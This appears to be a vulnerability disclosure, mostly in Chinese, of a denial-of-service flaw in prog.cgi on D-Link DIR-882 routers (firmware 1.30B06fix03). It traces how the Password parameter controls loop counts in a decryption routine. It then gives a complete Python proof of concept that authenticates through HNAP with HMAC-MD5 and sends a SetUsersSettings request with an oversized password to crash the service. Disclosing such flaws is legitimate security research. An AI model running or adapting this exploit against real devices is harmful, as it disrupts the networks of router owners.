 # Dlink DIR-882 DOS漏洞
## Overview
- 厂商官网：https://support.dlink.com/index.aspx 
- 固件下载地址：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
Dlink DIR-882_A1_FW1.30B06fix03中存在DOS漏洞，可导致prog.cgi崩溃。

## Affected version
![](pic/version.png "")
图示为路由器的最新固件:A1_FW1.30B06fix03
## Vulnerability details
在网上可以找到的固件版本是1.30。

![](pic/web.png "")

在prog.cgi中，我们可以在sub_498A78中找到代码细节，程序将Password参数获取的内容传递给V7.

![](pic/code1.png "")

V7参数由decrypt_aes()函数调用。在decrypt_aes()函数中，它被传递给sub_427184()。

![](pic/code2.png "")

在函数sub_427184()中，传入参数的长度被调用作为两个for循环中的循环次数。

![](pic/code3.png "")

所以循环次数是可控的，如果循环次数足够长，就会导致dos。
## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下POC攻击进行攻击

Poc is as follows
```python
import math
import re
import time
from hashlib import md5
import requests

IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'
    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetUsersSettings xmlns="http://purenetworks.com/HNAP1/"><StorageUsersLists><StorageUser><Enabled>true</Enabled><UserName>Admin</UserName><Password>24155c48233246aa4e56473958166ce625a45c48673246be4e5643d25890dee625a45c48673246be4e5643d25890dee625a45c48673246be4e5643d25890dee6</Password><ServiceInfoLists><ServiceInfo><Enabled>true</Enabled><ServiceName>SAMBA</ServiceName><AccessPath>/</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>true</Enabled><ServiceName>FTP</ServiceName><AccessPath>/</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>false</Enabled><ServiceName>VPN</ServiceName><AccessPath></AccessPath><Permission>true</Permission></ServiceInfo></ServiceInfoLists></StorageUser><StorageUser><Enabled>true</Enabled><UserName>test</UserName><Password>{data_password}</Password><ServiceInfoLists><ServiceInfo><Enabled>true</Enabled><ServiceName>SAMBA</ServiceName><AccessPath>/</AccessPath><Permission>false</Permission></ServiceInfo><ServiceInfo><Enabled>false</Enabled><ServiceName>FTP</ServiceName><AccessPath></AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>false</Enabled><ServiceName>VPN</ServiceName><AccessPath></AccessPath><Permission>true</Permission></ServiceInfo></ServiceInfoLists></StorageUser></StorageUsersLists></SetUsersSettings></soap:Body></soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetUsersSettings"'
    headers['HNAP_AUTH'] = hnap_auth("SetUsersSettings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
运行poc后，prog.cgi的进程号发生了变化，说明prog.cgi已经重启，正常的数据包不会引起进程变化。
运行前:

![](pic/a1.png "")

运行后：

![](pic/a2.png "")

## CVE-ID
unsigned
